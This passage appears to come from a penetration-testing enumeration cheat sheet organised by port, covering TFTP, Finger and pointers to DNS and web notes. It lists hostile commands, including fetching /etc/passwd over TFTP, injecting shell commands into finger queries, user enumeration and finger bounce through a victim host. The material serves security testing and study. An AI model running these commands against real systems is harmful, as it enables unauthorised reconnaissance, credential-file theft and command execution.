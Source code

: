     - Examine Configuration Files  
        sendmail.cf  
        submit.cf  

### DNS port 53
[dns.md](dns.md)

### TFTP port 69 open

+ TFTP Enumeration  
    `tftp ip_address PUT local_file`  
    `tftp ip_address GET conf.txt` (or other files)  
    Solarwinds TFTP server  
    `tftp – i <IP> GET /etc/passwd` (old Solaris)

+ TFTP Bruteforcing  
    TFTP bruteforcer  
    Cisco-Torch  


### Finger Port 79

+ User enumeration
  ```
  # finger -l -p vulnix@[ip_address]
  # finger 'a b c d e f g h' @example.com
  # finger admin@example.com
  # finger user@example.com
  # finger 0@example.com
  # finger .@example.com
  # finger **@example.com
  # finger test@example.com
  # finger @example.com       --> who is logged on
  ```
+ Command execution
  ```
  finger "|/bin/id@example.com"
  finger "|/bin/ls -a /@example.com"
  ```
+ Finger Bounce
  ```
  finger user@host@victim
  finger @internal@external
  ```

+ Check who is logged on
  ```
  # nmap --script finger* -p 79 [ip]
  ```



### Web Ports 80, 8080 etc. open
[http.md](http.md)

---
